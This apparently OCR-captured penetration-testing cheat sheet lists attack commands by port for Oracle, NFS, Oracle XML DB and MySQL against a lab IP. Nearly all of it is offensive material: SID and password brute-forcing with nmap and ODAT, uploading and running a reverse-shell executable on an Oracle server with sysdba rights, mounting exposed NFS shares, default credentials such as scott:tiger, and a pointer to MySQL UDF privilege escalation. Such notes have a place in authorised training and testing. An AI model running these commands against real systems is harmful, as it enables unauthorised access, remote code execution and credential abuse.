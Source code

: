 ## Port 1521 - Oracle

```
oscanner -s 10.11.1.111 -P 1521
tnscmd10g version -h 10.11.1.111
tnscmd10g status -h 10.11.1.111
nmap -p 1521 -A 10.11.1.111
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
MSF: good modules under auxiliary/admin/oracle and scanner/oracle

./odat-libc2.5-i686 all -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 sidguesser -s 10.11.1.111 -p 1521
./odat-libc2.5-i686 passwordguesser -s 10.11.1.111 -p 1521 -d XE

Upload reverse shell with ODAT:
./odat-libc2.5-i686 utlfile -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ shell.exe /root/shell.exe

and run it:
./odat-libc2.5-i686 externaltable -s 10.11.1.111 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ shell.exe


```

## Port 2049 - NFS

```
showmount -e 10.11.1.111

If you find anything you can mount it like this:

mount 10.11.1.111:/ /tmp/NFS
mount -t 10.11.1.111:/ /tmp/NFS
```

## Port 2100 - Oracle XML DB

```
FTP:
	sys:sys
	scott:tiger
```

Default passwords
https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm


## 3306 - MySQL

```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

MYSQL UDF 
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```
